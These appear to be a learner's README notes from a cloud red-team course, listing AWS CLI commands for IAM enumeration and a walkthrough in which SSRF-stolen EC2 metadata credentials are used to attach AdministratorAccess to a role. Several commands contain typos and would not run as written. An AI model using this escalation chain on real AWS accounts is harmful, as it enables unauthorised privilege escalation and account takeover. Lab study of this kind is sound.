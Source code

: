 # MCRTA (Multi-cloud Red Team Analyst)

## Project Source
```
https://labs.cyberwarfare.live/app/mycourse/mcrta/intro
```

## Enumeration

### Users:

```bash
# Enumerate user identity
aws sts get-caller-identity --profile <NAME>

# List of the users
aws iam list-users --profile <NAME>

# List fo the IAM grops that the user belongs
aws iam list-groups-for-user --user-name <NAME> --profile <NAME>

# List all manageed policies that are attached to the specified IAM user
aws iam list-attached-user-policies --user-name <NAME> --profile <NAME>

# List the names of the inline policies embedded in the specified IAM user
aws iam list-user-policies --user-name <NAME> --profile <NAME>

```

### Groups:

```bash
# List of IAM groups
aws iam list-groups --profile <NAME>

# List of all users in a group
aws iam get-group --group-name <GROUP-NAME> --profile <NAME>

# List all manageed policies that are attached to the specified IAM group
aws iam list-attached-group-policies --group-name <NAME> --profile <NAME>

# List the names of the inline policies embedded in the specified IAM group
aws iam list-group-policies --group-name <NAME> --profile <NAME>
```

### Roles:

```bash
# List of IAM roles:
aws iam list-roles --profile <NAME>

# List all manageed policies that are attached to the specified IAM group
aws iam list-attached-role-policies --role-name <NAME> --profile <NAME>

# List the names of the inline policies embedded in the specified IAM group
aws iam list-role-policies --role-name <NAME> --profile <NAME>
```

### Policies:

```bash
# List of all IAM policies:
aws iam list-policies --profile <NAME>

# Retrieves information about the specified managed policy:
aws iam get-policy --policy-arn <policy-arn> --profile <NAME>

# Lists information about the versions fo the specified manages policy:
aws iam list-policy-verions --policy-arn <policy-arn> --profile <NAME>

# Retrieves information about the specified version of the specified managed policy:
aws iam get-policy-version --policy-arn <policy-arn> --version-id <version-id> --profile <NAME>

# Retrieves the specified inline polcy document that is embedded on the speciied IAM user / group / role:
aws iam get-user-policy --user-name <user-name> --policy-name <policy-name> --profile <NAME>
aws iam get-group-policy --group-name <group-name> --policy-name <policy-name> --profile <NAME>
aws iam get-role-policy --role-name <role-name> --policy-name <policy-name> --profile <NAME>
```

## Cloud Red Team Operation

### Cloud Red Team Attack Life Cycle
- Recon
- Initial Compromise
- Establish Persistence
- Escalate Privileges 
    - Internal Enumeration
    - Credential Access
    - Lateral Movement
- Data Exfiltration
- Impact
- Complete Operations

### Example Scenario
Let's say that the Red Team operator is given with a low-privileged and readOnly access account to begin with... 

```bash
# Configure the Key and Secret
aws configure --profile <NAME>

# Get the identity of the given user
aws sts get-caller-identity --profile <NAME>

# Enumerate cloud services
aws ec2 describe-instances --profile <NAME>
```

The EC2 was running with an application which was vulnerable to SSRF. This led the operator to further gain access to the credentials from the meta-data access...

```bash
# Configure the credentials
aws configure set aws_access_key_id <key-id> --profile <NAME>
aws configure set aws_secret_access_key <key-id> --profile <NAME>
aws configure set aws_session_token <tokne> --profile <NAME>
aws sts get-caller-identify --profile <NAME>

# Get the managed policy attached to EC2 instance
aws iam list-attached-role-policies --role-name <role-name> --profile <NAME>

# Retrieves the specified inline policy document that is embedded on the EC2 instance role
aws iam list-role-policies --role-name <role-name> --profile <NAME>

# Get the permissions in inline policy
aws iam get-role-policy --role-name <role-name> --policy-name <policy-name> --profile <NAME>
```

The inline policy was configured with `iam:AttachRolePolicy` which is dangerous since you can attach any policy into your role(s)

```bash
# Escalate the priviliege by attaching administrator policy 
aws iam attach-role-policy --policy-arn arn:aws:iam;:aws:policy/AdministratorAccess --role-name <role-name> --profile <NAME>
```